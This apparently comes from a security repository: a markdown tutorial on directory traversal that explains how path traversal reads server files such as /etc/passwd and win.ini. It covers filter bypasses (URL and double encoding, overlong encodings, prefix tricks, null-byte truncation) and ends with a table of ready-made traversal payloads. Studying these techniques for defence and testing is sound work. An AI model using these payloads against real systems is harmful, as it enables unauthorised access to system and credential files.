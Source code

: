 
# Directory Travarsal

## What is directory traversal?

Directory traversal (also known as file path traversal or Local file Inclusion) is a web security vulnerability in which attacker can read arbitrary files from the server that includes the source code file of the application. Sometimes attackers are able to write to some arbitrary files that could lead to full remote code execution on the server.

**Senario**

Consider an application that shows the image file and the image is loaded via HTML like the following.

```html
<img src="/loadImage?filename=218.png">
```

In the above code, they request the web API endpoint in which they load the file. They should look like the following in URL form.

```
http://example.com/loadImage?filename=218.png
```

The image is loaded from some hard-coded path in the web root and in that case they are following.

```
/var/www/html/images/218.png
```

If the application doesn't secure it properly it could lead to arbitrary file reading. instead of giving the image file name we can give him `../../../etc/passwd` and if they give us the context of `/etc/passwd` they are vulnerable to path traversal attack. The `../` sequence is used to go back to one directory so by going back multiple times we come to the file root and then specify the `/etc/passwd` file. we can also simply just add multiple `../` sequences because we cannot go further back after hitting the root file system.

One thing we should know is which OS application is running and we have to specify the files that are present there like on unix os `/etc/passwd` file always exits that have all the user information in the system but for windows, we have other files that are readable to everyone and that could be used to detect directory traversal.

Following are some common files that are readable and may be used to detect it.
| Unix | Windows |
| --- | --- |
| `/etc/passwd` | `/windows/boot.ini` |
| `/etc/group` | `/autoexec.bat` |
| `/etc/hosts` | `/windows/system.ini` |
| `/proc/self/environ` | `/windows/win.ini` |

> **Note:** One windows both `..\` and `../` are valid directory traversal sequences.

## Obstacles in exploitation

Some applications implement some hardening for path traversal attacks that includes striping or blocking the directory traversal sequences from user-supplied filenames. This kind of protection often bypasses by just using an absolute path i.e `/etc/passwd`. If that does not help then single or double URL encoding the directory traversal sequences may bypass the protection for example the payload `../../etc/passwd` after url encoded may look like this `%2E%2E%2F%2E%2E%2Fetc%2Fpasswd`. Sometimes non-standard encodings, such as `..%c0%af` or `..%ef%bc%8f` may also do the trick.

if the application tries to validate the user-supplied filename must start with some expected location i.e `/var/www/images` then we can add that and after then use directory traversal sequences to go back i.e `filename=/var/www/images/../../../../etc/passwd`.

If the application validates that the extension must be an image file like `.png` then in some backend languages, it is possible to use a Null byte to terminate the extension checking requirement for example.

```
filename=../../../../../etc/passwd%00.png
```

## Common Payloads

| Unix | Windows |
| --- | --- |
| `/etc/passwd` | `/Windows/win.ini` |
| `../../../../../../etc/passwd` | `../../../../../../Windows/win.ini` |
| `....//....//....//....//....//....//etc/passwd` | `....//....//....//....//....//....//Windows/win.ini` |
| `%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2Fetc%2Fpasswd` | `%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2F%2E%2E%2E%2E%2F%2FWindows%2Fwin%2Eini` |
| `%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd` | `%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2FWindows%2Fwin%2Eini` |
| `%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd` | `%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252FWindows%252Fwin%252Eini` |

---
